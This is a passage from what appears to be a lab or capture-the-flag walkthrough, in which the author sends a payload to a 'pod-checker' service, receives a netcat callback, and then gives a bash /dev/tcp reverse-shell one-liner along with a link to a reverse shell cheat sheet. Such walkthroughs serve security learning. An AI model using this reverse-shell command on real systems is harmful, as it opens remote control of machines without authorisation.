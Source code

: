 And now send our payload to the pod-checker.

![Python Curl Connection](./images/9-python-curl-connection.png)

And we obtain a connection from an IP Address `192.168.109.66`.

![Netcat Connection](./images/10-netcat-connection.png)

### Step 3: Obtaining a reverse shell

Let's see if we can turn this into a full blown, reverse shell. There is a simple bash one liner that can help us here:

```bash
/bin/bash -i >& /dev/tcp/<IP-ADDRESS>/<PORT> 0>&1
```

> Note: If you like to learn more about different types of reverse shells, the following GitHub Repository has a useful list: [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
